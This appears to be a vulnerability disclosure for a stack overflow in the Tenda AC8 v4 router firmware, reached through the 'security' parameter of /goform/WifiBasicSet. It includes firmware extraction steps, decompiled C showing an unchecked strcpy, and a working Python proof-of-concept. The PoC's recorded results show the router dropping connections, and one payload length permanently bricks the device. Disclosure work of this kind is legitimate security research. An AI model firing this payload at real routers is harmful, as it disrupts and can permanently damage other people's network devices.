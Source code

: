 # Tenda AC8 v4 V16.03.34.06
Under **/goform/WifiBasicSet**, the parameters **security** and **security_5g** can lead to stack overflow vulnerabilities【The following takes the stack overflow caused by the **security** parameter as an example】
## Environment & Tool Versions Used:  
- Ubuntu 22.04  
- binwalk v2.2.1  
- IDA Pro 9.0  


## Environment Preparation  
Download the corresponding router firmware from the official website: https://tenda.com.cn/material/show/3518  
- Firmware: AC8 v4 Upgrade Software_V16.03.34.06  
- Software Version: V16.03.34.06  
- Update Date: November 29, 2024  
- File Size: 6.86 MB  
- File Format: zip  


After unzipping the downloaded zip file, use the binwalk tool to parse the firmware:  
```bash
binwalk -eM [firmware file]  # The latest binwalk version has poor parsing effect, so v2.2.1 is used here.
```  

After normal parsing, navigate to the `squashfs-root` directory. The router startup program path is `./bin/httpd`. Use the `file` command to check the program:  
```bash
file ./bin/httpd  
# Output: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mipsel.so.1, stripped
```  


## Vulnerability Proof  
In the `/goform/WifiBasicSet` endpoint, the `security` and `security_5g` parameters cause a stack overflow vulnerability. The `formWifiBasicSet` function calls `sub_45F3E8`, which proceeds through the following functions:  
`sub_45F3E8 -> sub_45E1C4 -> sub_45DC58`  

In `sub_45DC58`, the `strcpy` function at line 30 causes a stack overflow vulnerability.  

```c
int _fastcall sub_45DC58(int a1, int a2, const char *a3) {
    size_t v3; // $ve
    int mibname; // $ve
    int v6; // $ve
    char *src; // [sp+18h] [+18h]
    char v8[256]; // [sp+24h] [+24h] BYREF
    _BYTE v9[256]; // [sp+124h] [+124h] BYREF
    _BYTE v10[256]; // [sp+224h] [+224h] BYREF
    int v11; // [sp+324h] [+324h]

    memset(v8, 0, sizeof(v8));
    v11 = 256;
    memset(v9, 0, sizeof(v9));
    memset(v10, 0, sizeof(v10));
    v3 = strlen(a3);
    if (!strncmp(a3, "0", v3))
        src = websGetVar(a1, "security", (int)"none");
    else
        src = websGetVar(a1, "security_5g", (int)"none");
    if (!src)
        return 1;
    mibname = wifi_get_mibname(a2, "bss_security", v9);
    GetValue(mibname, v10);
    SetValue(v9, src);
    if (!strcmp(src, "wpapsk") || !strcmp(src, "wpa2psk") || strcmp(src, "wpawpa2psk"))
        SetValue(v9, "wpapsk");
    else
        SetValue(v9, src);
    strcpy(v8, src);
    v6 = wifi_get_mibname(a2, "bss_wpapsk_type", v9);
    GetValue(v6, v10);
    if (!strcmp(src, "wpapsk")) {
        SetValue(v9, "psk");
    } else if (!strcmp(src, "wpa2psk")) {
        SetValue(v9, "psk2");
    } else if (!strcmp(src, "wpawpa2psk")) {
        SetValue(v9, "psk+psk2");
    }
    return sub_45D91C(a1, a2, v8, a3);
}
```  

Without setting other parameters, the program will accept the `security` parameter in `sub_45DC58`. An attacker can input sufficiently long data into this parameter, causing a buffer overflow when the program executes the `strcpy` function.  


### POC (Proof of Concept)  
```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0',
    "Cookie": "password=381acc5cfbc629c40245413ef90a4439mffcvb"  # If the router has a password, capture the cookie first.
}

url = "http://tendawifi.com"
url_vuln = url + "/goform/WifiBasicSet"

# payload = 'a'*0x100  # No stack overflow, router runs normally.
# payload = 'a'*(0x100+8)  # Not recommended; may brick the router.
payload = 'a'*0x1000  # Management interface returns to login page.

data = {
    'security': payload
}

response = requests.post(url_vuln, data=data, headers=headers)
print(response.text)
```  


#### Test Results  
1. When `payload = 'a'*0x100`:  
```bash
{"errCode":0}
```  

2. When `payload = 'a'*0x1000`:  
```bash
Traceback (most recent call last):
...
requests.exceptions.ConnectionError: HTTPConnectionPool(host='tendawifi.com', port=80): Max retries exceeded with url: /goform/WifiBasicSet (Caused by NewConnectionError(...))
```  
(The router's management interface returns to the login page, but other devices remain connected.)  

3. When `payload = 'a'*(0x100+8)`:  
The router crashes, disconnects all devices, and cannot be reconnected even after a reboot (requires customer service support for repair).  


**Note**: The vulnerability was confirmed through code auditing and real-world testing, although executing the POC in a QEMU virtual environment encountered runtime issues due to file permission configurations.
